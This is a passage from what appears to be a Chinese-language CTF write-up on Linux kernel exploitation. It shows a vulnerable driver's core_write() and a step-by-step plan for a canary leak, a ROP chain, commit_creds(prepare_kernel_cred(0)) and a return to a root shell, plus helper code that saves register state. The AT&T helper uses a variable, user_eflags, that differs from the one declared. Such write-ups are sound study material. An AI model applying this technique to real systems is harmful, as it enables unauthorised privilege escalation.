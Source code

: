 **core_write()** 向全局變量 `name` 上寫，這樣通過 `core_write()` 和 `core_copy_func()` 就可以控制 ropchain 了
```C
signed __int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 v3; // rbx

  v3 = a3;
  printk("\x016core: called core_writen");
  if ( v3 <= 0x800 && !copy_from_user(name, a2, v3) )
    return (unsigned int)v3;
  printk("\x016core: error copying data from userspacen");
  return 0xFFFFFFF2LL;
}
```

### 思路

經過如上的分析，可以得出以下的思路：

1. 通過 ioctl 設置 off，然後通過 core\_read() leak 出 canary
2. 通過 core\_write() 向 name 寫，構造 ropchain
3. 通過 core\_copy_func() 從 name 向局部變量上寫，通過設置合理的長度和 canary 進行 rop
4. 通過 rop 執行 `commit_creds(prepare_kernel_cred(0))`
5. 返回用戶態，通過 system("/bin/sh") 等起 shell

解釋一下：

- 如何獲得 commit\_creds()，prepare\_kernel\_cred() 的地址？
	- /tmp/kallsyms 中保存了這些地址，可以直接讀取，同時根據偏移固定也能確定 gadgets 的地址
- 如何返回用戶態？
	- `swapgs; iretq`，之前說過需要設置 `cs, rflags` 等信息，可以寫一個函數保存這些信息

```C
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_stats() {
asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"movq %%rsp, %3\n"
	"pushfq\n"
	"popq %2\n"
	:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
	:
	: "memory"
);
}
```
